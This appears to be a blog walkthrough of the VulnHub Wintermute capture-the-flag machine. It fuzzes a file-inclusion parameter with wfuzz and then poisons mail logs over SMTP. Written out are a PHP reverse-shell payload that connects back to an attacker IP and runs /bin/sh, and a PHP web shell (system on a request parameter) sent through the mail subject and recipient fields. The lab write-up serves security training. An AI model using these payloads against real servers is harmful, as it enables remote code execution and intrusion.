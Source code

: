 Create a list as follows:

    kali@kali:~$ grep '.log$' PayloadsAllTheThings/File\ Inclusion/Intruders/*.txt | grep -Eiv  "windows|\mac" | cut -d ":" -f 2 | awk -F ".log$" '{print $1}'  > Logs.txt

Using the newly created list attempt to bruteforce for other possible directories.
```
kali@kali:~$ cd vulnhub/wintermute/ && wfuzz -c -z file,Logs.txt --hl 27 http://192.168.251.7/turing-bolo/bolo.php?bolo=FUZZ


Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.251.7/turing-bolo/bolo.php?bolo=FUZZ
Total requests: 370

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000269:   200        312 L    2998 W   30789 Ch    "/var/log/mail"

Total time: 1.762120
Processed Requests: 370
Filtered Requests: 368
Requests/sec.: 209.9742

```
We get the results we had before, work checking whilst doing other machines.

Next step is to do some log poisoning. Using `PayloadsAllTheThings/File\ Inclusion/ `

Please note:
```
mail from: <tmix@dany.ke>
rcpt to: <?php  -r '$sock=fsockopen("192.168.251.4",4242);exec("/bin/sh -<&3 >&3 2>&3");'  ?>
```
Using this payload for RCE kills the port

We'll stick to safety

```
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_REQUEST['cmd']); ?>
data2

```
In some cases you can also send the email with the
```
mail from: <tmix@dany.ke>
rcpt to: <?php echo system ($_REQUEST['cmd']); ?>
```

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator